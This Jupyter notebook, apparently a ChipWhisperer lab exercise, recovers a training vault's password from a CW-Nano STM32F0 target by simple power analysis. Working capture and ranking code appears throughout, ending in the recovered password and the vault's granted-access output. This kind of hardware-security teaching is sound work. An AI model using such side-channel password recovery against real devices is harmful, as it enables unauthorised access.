## 1. Build and flash the GPIO tristate firmware (CW-Nano's STM32F0)

In [1]:
%%bash
cd ../firmware/mcu/stm32-gpio-tristate
make PLATFORM='CWNANO' CRYPTO_TARGET=NONE -j


SS_VER set to SS_VER_1_1
arm-none-eabi-gcc (15:14.2.rel1-1) 14.2.1 20241119
Copyright (C) 2024 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.

mkdir -p objdir-CWNANO 
.
Welcome to another exciting ChipWhisperer target build!!
.
.
.
.
.
Compiling:
Compiling:
Compiling:
Compiling:
Compiling:
-en     gpio-tristate.c ...
-en     .././hal//stm32f0_nano/stm32f0_hal_nano.c ...
.
-en     .././hal/hal.c ...
-en     .././simpleserial/simpleserial.c ...
-en     .././hal//stm32f0/stm32f0_hal_lowlevel.c ...
Assembling: .././hal//stm32f0/stm32f0_startup.S
arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -x assembler-with-cpp -mthumb -mfloat-abi=soft -ffunction-sections -DF_CPU=7372800 -Wa,-gstabs,-adhlns=objdir-CWNANO/stm32f0_startup.lst -I.././hal/ -I.././hal/ -I.././hal//stm32f0 -I.././hal//stm32f0/CMSIS -I.././hal//stm32f0/CMSIS/core -I.././hal//stm32f0/CMSIS/device -I../

/usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/bin/ld: /usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/lib/thumb/v6-m/nofp/libg_nano.a(libc_a-closer.o): in function `_close_r':
/build/newlib-Ipb6mw/newlib-4.6.0.20260123/build_nano/arm-none-eabi/thumb/v6-m/nofp/newlib/../../../../../../newlib/libc/reent/closer.c:47:(.text+0xc): warning: _close is not implemented and will always fail
/usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/bin/ld: /usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/lib/thumb/v6-m/nofp/libg_nano.a(libc_a-lseekr.o): in function `_lseek_r':
/build/newlib-Ipb6mw/newlib-4.6.0.20260123/build_nano/arm-none-eabi/thumb/v6-m/nofp/newlib/../../../../../../newlib/libc/reent/lseekr.c:49:(.text+0x10): warning: _lseek is not implemented and will always fail


/usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/bin/ld: /usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/lib/thumb/v6-m/nofp/libg_nano.a(libc_a-closer.o): note: the message above does not take linker garbage collection into account
/usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/bin/ld: /usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/lib/thumb/v6-m/nofp/libg_nano.a(libc_a-lseekr.o): note: the message above does not take linker garbage collection into account


/usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/bin/ld: /usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/lib/thumb/v6-m/nofp/libg_nano.a(libc_a-readr.o): in function `_read_r':
/build/newlib-Ipb6mw/newlib-4.6.0.20260123/build_nano/arm-none-eabi/thumb/v6-m/nofp/newlib/../../../../../../newlib/libc/reent/readr.c:49:(.text+0x10): warning: _read is not implemented and will always fail
/usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/bin/ld: /usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/lib/thumb/v6-m/nofp/libg_nano.a(libc_a-writer.o): in function `_write_r':
/build/newlib-Ipb6mw/newlib-4.6.0.20260123/build_nano/arm-none-eabi/thumb/v6-m/nofp/newlib/../../../../../../newlib/libc/reent/writer.c:49:(.text+0x10): warning: _write is not implemented and will always fail


/usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/bin/ld: /usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/lib/thumb/v6-m/nofp/libg_nano.a(libc_a-readr.o): note: the message above does not take linker garbage collection into account
/usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/bin/ld: /usr/lib/gcc/arm-none-eabi/14.2.1/../../../arm-none-eabi/lib/thumb/v6-m/nofp/libg_nano.a(libc_a-writer.o): note: the message above does not take linker garbage collection into account
-e Done!
.
.
.
.
Creating load file for Flash: gpio-tristate-CWNANO.hex
.
Creating load file for Flash: gpio-tristate-CWNANO.bin
Creating load file for EEPROM: gpio-tristate-CWNANO.eep
arm-none-eabi-objcopy -O ihex -R .eeprom -R .fuse -R .lock -R .signature gpio-tristate-CWNANO.elf gpio-tristate-CWNANO.hex
Creating Extended Listing: gpio-tristate-CWNANO.lss
arm-none-eabi-objcopy -O binary -R .eeprom -R .fuse -R .lock -R .signature gpio-tristate-CWNANO.elf gpio-tristate-CWNANO.bin
arm-none-eabi-objc

## 2. Imports and connection

In [2]:
import chipwhisperer as cw
import time
import string
import numpy as np
import pandas as pd
import matplotlib.pyplot as plt


In [3]:
try:
    if not scope.connectStatus:
        scope.con()
except NameError:
    scope = cw.scope()

try:
    target = cw.target(scope, cw.targets.SimpleSerial2)
except IOError:
    scope = cw.scope()
    target = cw.target(scope, cw.targets.SimpleSerial2)

target.baud = 9600
print("Connected to scope and target.")


Connected to scope and target.


In [4]:
scope.adc.samples = 5000
scope.adc.clk_freq = 7500000
scope.io.clkout = 7500000


## 3. Averaged trace capture

In [5]:
def capture_trace_avg(guess, n_avg=500, settle_before_write=0.05):
    """Capture n_avg traces for the given attempt and return their average."""
    traces = []
    fails = 0

    for i in range(n_avg):
        scope.arm()
        target.ser.write((guess + "\n").encode())
        ret = scope.capture()
        if ret:
            fails += 1
            continue
        traces.append(scope.get_last_trace())
        time.sleep(settle_before_write)

    if len(traces) == 0:
        print(f"No valid trace for '{guess}' ({fails} timeouts)")
        return None

    if fails > 0:
        print(f"'{guess}': {fails}/{n_avg} timeouts, averaged over {len(traces)} traces")

    return np.mean(traces, axis=0)


## 4. Position analysis: rank all charset candidates

In [6]:
# Printable ASCII, 33 (!) to 126 (~) -> 94 characters
charset = ''.join(chr(i) for i in range(33, 127))


def analyze_position(known_prefix, charset, n_avg=50):
    """Capture a trace for each candidate character at the next position
    and rank them by L2 distance to the mean trace."""
    traces = {}

    for ch in charset:
        t = capture_trace_avg(known_prefix + ch, n_avg=n_avg)
        if t is not None:
            traces[ch] = t

    if len(traces) == 0:
        return None, None

    mean_trace = np.mean(list(traces.values()), axis=0)

    results = []
    for ch, t in traces.items():
        dist = np.sqrt(np.sum((t - mean_trace) ** 2))
        results.append({
            "character": ch,
            "mean_amplitude": np.mean(t),
            "max_amplitude": np.max(t),
            "l2_distance": dist,
        })

    df = pd.DataFrame(results).sort_values("l2_distance", ascending=False)
    return df, traces


## 4.1 Candidate ranking for a position

In [7]:
# Rerun the position analysis to get df / traces for inspection
df, traces = analyze_position("", charset, n_avg=50)

print(f"Best candidate: '{df.iloc[0]['character']}'\n")
print(df.head(10).to_string(index=False))

best_dist = df.iloc[0]["l2_distance"]
second_dist = df.iloc[1]["l2_distance"]
gap_ratio = (best_dist - second_dist) / best_dist if best_dist > 0 else 0

print(f"\nBest L2 distance: {best_dist:.4f}")
print(f"Second-best L2 distance: {second_dist:.4f}")
print(f"Gap ratio (relative margin): {gap_ratio * 100:.1f}%")


Best candidate: 'f'

character  mean_amplitude  max_amplitude  l2_distance
        f        0.038472       0.422969     7.693626
        R        0.038470       0.414844     3.851344
        ,        0.038654       0.435391     3.523321
        {        0.038283       0.408047     3.519602
        |        0.038173       0.413516     3.475321
        %        0.038359       0.440703     3.276665
        g        0.038330       0.427812     3.253629
        O        0.037902       0.417031     3.237745
        r        0.038544       0.413750     3.223103
        y        0.038421       0.418281     3.151948

Best L2 distance: 7.6936
Second-best L2 distance: 3.8513
Gap ratio (relative margin): 49.9%


## 4.2 Finding the best n_avg (convergence analysis)

In [8]:
# Quick first pass at position 1, to get a plausible candidate before calibrating n_avg
df_initial, traces_initial = analyze_position("", charset, n_avg=50)
probable_candidate = df_initial.iloc[0]["character"]

print(f"Probable candidate for position 1: '{probable_candidate}'")
print(df_initial.head(10).to_string(index=False))


Probable candidate for position 1: 'f'
character  mean_amplitude  max_amplitude  l2_distance
        f        0.038468       0.413906     7.408300
        v        0.038083       0.442188     4.163453
        {        0.038312       0.417656     3.848899
        J        0.038326       0.446172     3.690878
        5        0.038329       0.424844     3.588230
        O        0.038131       0.428047     3.424366
        ?        0.038202       0.424531     3.411222
        '        0.038387       0.454688     3.337764
        N        0.038291       0.446016     3.273153
        "        0.038522       0.454531     3.134446


Capturing 1000 traces for 'f'...
Capturing 1000 traces for 'g'...
Capturing 1000 traces for 'h'...
Capturing 1000 traces for '6'...
Capturing 1000 traces for 'N'...




In [9]:
def capture_traces_raw(guess, n_max=1000, settle_before_write=0.05):
    """Capture n_max raw traces (no averaging), to later analyse convergence
    over growing subsets."""
    traces = []
    for i in range(n_max):
        scope.arm()
        target.ser.write((guess + "\n").encode())
        ret = scope.capture()
        if not ret:
            traces.append(scope.get_last_trace())
        time.sleep(settle_before_write)
    return traces


# One capture pass for the candidate plus a few decoys
n_max = 1000
candidates_to_test = [probable_candidate, "g", "h", "6", "N"]
prefix = ""  # position 1

raw_traces = {}
for ch in candidates_to_test:
    print(f"Capturing {n_max} traces for '{ch}'...")
    raw_traces[ch] = capture_traces_raw(prefix + ch, n_max=n_max)


# Convergence: gap_ratio as a function of the number of traces averaged
n_values = [25, 50, 100, 250, 500, 750, 1000]
convergence_results = []

for n in n_values:
    means = {ch: np.mean(traces[:n], axis=0) for ch, traces in raw_traces.items()}
    global_mean = np.mean(list(means.values()), axis=0)

    distances = sorted(
        (np.sqrt(np.sum((t - global_mean) ** 2)) for t in means.values()),
        reverse=True
    )
    best_dist, second_dist = distances[0], distances[1]
    gap_ratio = (best_dist - second_dist) / best_dist if best_dist > 0 else 0

    convergence_results.append({"n": n, "gap_ratio": gap_ratio})

conv_df = pd.DataFrame(convergence_results)

plt.figure(figsize=(8, 4))
plt.plot(conv_df["n"], conv_df["gap_ratio"] * 100, marker='o')
plt.xlabel("Number of averaged traces (n)")
plt.ylabel("Gap ratio (%)")
plt.title("SPA signal convergence vs number of averaged traces")
plt.grid(alpha=0.3)
plt.tight_layout()
plt.show()


## 5. Password verification against the vault

In [10]:
def flush_serial_buffer():
    """Discard any leftover bytes in the UART buffer before a clean read."""
    try:
        target.ser.read(10000)
    except Exception:
        pass


def verify_password(password):
    """Send the candidate password once and return the vault's response."""
    flush_serial_buffer()
    target.ser.write((password + "\n").encode())
    time.sleep(0.1)
    response = target.ser.read(200)
    if isinstance(response, bytes):
        response = response.decode(errors="ignore")
    return response


## 6. Password reconstruction, one position at a time

In [11]:
N_AVG = 50
NO_SIGNAL_THRESHOLD = 0.05
MAX_LENGTH = 20

known_password = ""

position = 0
while position < MAX_LENGTH:
    print(f"\n=== Position {position + 1}, known prefix: '{known_password}' ===")

    df, traces = analyze_position(known_password, charset, n_avg=N_AVG)
    if df is None:
        print("No valid trace, stopping.")
        break

    best_dist = df.iloc[0]["l2_distance"]
    second_dist = df.iloc[1]["l2_distance"]
    gap_ratio = (best_dist - second_dist) / best_dist if best_dist > 0 else 0
    best_char = df.iloc[0]["character"]

    print(df.head(5).to_string(index=False))
    print(f"Gap ratio: {gap_ratio * 100:.1f}%")

    candidate_password = known_password + best_char
    response = verify_password(candidate_password)
    print(f"Vault response for '{candidate_password}': {response}")

    if "ACCESS DENIED" not in response:
        print(f"\nPassword found and confirmed by the vault: '{candidate_password}'")
        known_password = candidate_password
        break

    if gap_ratio < NO_SIGNAL_THRESHOLD:
        print(f"\nGap ratio below threshold, no more distinction, stopping.")
        break

    known_password = candidate_password
    print(f">>> Password so far: '{known_password}'")
    position += 1

print(f"\nFinal reconstructed password: '{known_password}'")



=== Position 1, known prefix: '' ===
character  mean_amplitude  max_amplitude  l2_distance
        f        0.038297       0.431328     8.028165
        Z        0.038139       0.439297     3.903678
        h        0.038201       0.427891     3.870375
        n        0.038341       0.449766     3.676564
        .        0.038260       0.419297     3.587688
Gap ratio: 51.4%
Vault response for 'f': >> ACCESS DENIED

Enter password:

>>> Password so far: 'f'

=== Position 2, known prefix: 'f' ===
character  mean_amplitude  max_amplitude  l2_distance
        7        0.038268       0.477422     8.692096
        ~        0.038354       0.424766     4.131678
        y        0.038276       0.416406     3.928057
        n        0.038344       0.412578     3.760406
        |        0.038212       0.454219     3.668981
Gap ratio: 52.5%
Vault response for 'f7': >> ACCESS DENIED

Enter password:

>>> Password so far: 'f7'

=== Position 3, known prefix: 'f7' ===
character  mean_amplitude  max_

(ChipWhisperer Scope WARNING|File cwnano.py:711) Timeout in cwnano capture()
(ChipWhisperer Scope WARNING|File cwnano.py:711) Timeout in cwnano capture()
(ChipWhisperer Scope WARNING|File cwnano.py:711) Timeout in cwnano capture()
(ChipWhisperer Scope WARNING|File cwnano.py:711) Timeout in cwnano capture()
(ChipWhisperer Scope WARNING|File cwnano.py:711) Timeout in cwnano capture()
(ChipWhisperer Scope WARNING|File cwnano.py:711) Timeout in cwnano capture()


'f7-@Jp0w': 6/50 timeouts, averaged over 44 traces
character  mean_amplitude  max_amplitude  l2_distance
        w        0.039559       0.178622     7.287972
        :        0.038532       0.448125     3.860488
        m        0.038747       0.418672     3.855121
        d        0.038877       0.428438     3.586294
        1        0.038687       0.446484     3.460467
Gap ratio: 47.0%
Vault response for 'f7-@Jp0w': >> ACCESS GRANTED: running protected section
Here is your salt: 5B4C3C42
Here is your hash: DD1783FE7DC4418650E2C23B91ED4B2D2EAFBD84188C5C5307A8B5D694CDA9AB

Enter password:


Password found and confirmed by the vault: 'f7-@Jp0w'

Final reconstructed password: 'f7-@Jp0w'
